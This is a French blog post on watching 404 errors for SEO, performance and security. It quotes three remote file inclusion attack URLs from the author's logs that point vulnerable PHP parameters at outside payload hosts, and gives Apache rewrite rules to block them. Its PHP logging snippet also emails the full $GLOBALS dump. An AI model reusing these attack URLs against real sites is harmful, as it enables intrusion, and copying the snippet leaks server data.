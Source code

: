 ```yaml
---
title:      Surveillez vos erreurs 404, elles peuvent être très instructives
lang:       fr
tags:       [erreur 404, SEO, sécurité, webperf]
---
```


A l’heure où tout le monde ne jure que par l’optimisation du référencement — on dit Search Engine Optimization, ou SEO, pour faire branché — afin d’augmenter son trafic, et ainsi ses clients potentiels et/ou son revenu publicitaire, qui se soucie de vérifier ce qui se passe pour les internautes qui arrivent bien sur le site, mais sur une page qui n’existe pas, indiquée comme il se doit par une erreur HTTP 404[^erreur404] ?

[^erreur404]: Oui, c’est la règle, mais certains ne la respectent pas, bien entendu...

Si vous ne vous en souciez pas, commencez tout de suite à le faire, il y a beaucoup à apprendre, et sans doute beaucoup d’améliorations à apporter à votre site.

Le moyen le plus simple de connaître les URL en erreur 404 sur lesquelles arrivent les internautes, c’est d’abord de s’intéresser à celles qui sont référencées dans les moteurs de recherche, dont Google. On peut trouver justement un référencement des pages en erreur, dont celles en 404, au sein des [outils Google pour les webmasters](https://www.google.com/webmasters/tools/).

{% cloudinary google-webmasters-404.png caption="Erreurs 404 de Gastero Prod référencées par Google" %}

Une autre méthode plus basique et source potentielle d’explosion de compte mail est de se faire envoyer un mail à chaque requête donnant une erreur. C’est ce que j’ai fait dans mon squelette `404.html` pour Gastero Prod, en donnant au passage quelques informations utiles de contexte d’appel :

```php
<?php
mail('adresse@example.com',
        '[GP404] '.$_SERVER['REQUEST_URI'],
        '#URL_SITE_SPIP'.$_SERVER['REQUEST_URI']."\r\n".'User agent: '.$_SERVER['HTTP_USER_AGENT']."\r\n".'Referer: '.$_SERVER['HTTP_REFERER']."\r\n".print_r($GLOBALS, true),
        'From: adresse@example.com');
}
?>
```

Identifier les erreurs 404 permet d’améliorer un site sur plusieurs sujets :

# La qualité du référencement

Si un internaute arrive sur votre site depuis un moteur de recherche, et tombe sur une erreur 404, c’est qu’il y a un soucis dans votre référencement, sans doute parce que votre site ou un autre site contient des liens qui pointent vers ces mauvaises URL, liens qui existent :

- soit par simple erreur de frappe, ce qu’un bon [outil de gestion de contenus Web](http://www.clever-age.com/veille/clever-link/les-outils-de-gestion-de-contenu.html) devrait permettre d’éviter,
- soit parce que vous avez modifié vos URL, ce qu’il ne faut surtout [pas faire](http://www.w3.org/Provider/Style/URI) !,
- soit parce que des URL déterminées et gérées automatiquement sont mal configurées.

En observant les erreurs 404 relevées par Google, j’ai pu corriger de nombreux problèmes apparus sur Gastero Prod, notamment avec le petit changement opéré sur les URL[^url] pour que les articles du blog ne soient plus à la racine mais dans une sous rubrique blog/ et surtout un mélange entre URL absolues et URL relative, pas encore totalement bien gérées dans SPIP avec des URL arborescentes.

[^url]: Oui, je sais, c’est mal, mais j’ai mis des redirections permanentes au moins, moi ! ;-)

Il n’y a bien entendu pas que le nettoyage des erreurs 404 qui permet d’améliorer la qualité du référencement, mais c’est un autre sujet...

# Les performances, la consommation de bande passante, et donc potentiellement le coût de l’hébergement

Si vous faites en sorte de diminuer les erreurs 404 sur votre site, quelles qu’en soit les causes, les internautes ne téléchargeront que les pages réellement intéressantes, et vous réduirez le gaspillage de ressources de votre serveur, ainsi que la bande passante consommée.

Selon la nature de votre hébergement, cela peut avoir un impact — positif à priori — sur son coût, ce qui peut s’avérer intéressant comme motivation.

# La sécurité

Vous pouvez aussi identifier, dans les erreurs 404, des attaques essayant de profiter de failles de sécurité de solutions packagées.

Par exemple, un requête revenant ces derniers temps dans mes logs de 404 est la suivante :

```
http://www.gasteroprod.com/infoevent.php3?rootagenda=http://love-ma2.t35.com/sistem.txt?
```

En cherchant `infoevent.php3` sur Google, j’ai découvert qu’il s’agit d’un script faisant justement l’objet d’[une faille de sécurité de phpMyAgenda](http://www.securityfocus.com/bid/29164).

Comme par hasard, le client ayant fait cette requête n’est pas un navigateur traditionnel, mais s’identifie comme étant `libwww-perl/5.803`. C’est donc bien un programme qui tente l’attaque, sauf falsification de signature qui serait ici inepte.

Autre exemple avec cette requête :

```
http://www.gasteroprod.com//tags.php?BBCodeFile=http://guhit.com/img/id.txt?
```

Requête qui correspond à [une faille de sécurité de Tagger LE](http://www.securityfocus.com/bid/19464), et qui est demandée comme par hasard aussi par un client `libwww-perl/5.812` !

Dernier exemple avec cette requête :

```
http://www.gasteroprod.com//chat/users_popupL.php3?From=http://www.covoiturage.fr/communities/arab.txt??
```

Requête qui correspond à [une faille de sécurité de phpMyChat](http://osvdb.org/39224)[^pmc], et qui est demandée comme par hasard une fois de plus par un client `libwww-perl/5.805` !

[^pmc]: Oups oups oups ! :-(

Je tiens à signaler aux hackers qui me liraient que je n’utilise aucune de ces applications, ni aucune des nombreuses autres auxquelles s’adressent les autres attaques que je subi...

Faudrait-il donc refuser systématiquement toute requête signée par `libwww-perl` ?

En tout cas, vous pouvez déjà refuser les requêtes clairement identifiables comme des attaques brutales, par exemple comme ceci si vous avez le module `mod_rewrite` pour Apache :

```
# Bloquer certaines attaques brutales pas fines
# http://www.securityfocus.com/bid/19464
RewriteCond %{QUERY_STRING} &?BBCodeFile=([^&]+)
RewriteRule tags\.php - [F,L]
# http://www.securityfocus.com/bid/29164
RewriteCond %{QUERY_STRING} &?rootagenda=([^&]+)
RewriteRule infoevent\.php3 - [F,L]
# http://osvdb.org/39224
RewriteCond %{QUERY_STRING} &?From=([^&]+)
RewriteRule users_popupL\.php3 - [F,L]
```

Voilà, vous êtes prévenus, n’ignorez plus vos erreurs 404, agissez !
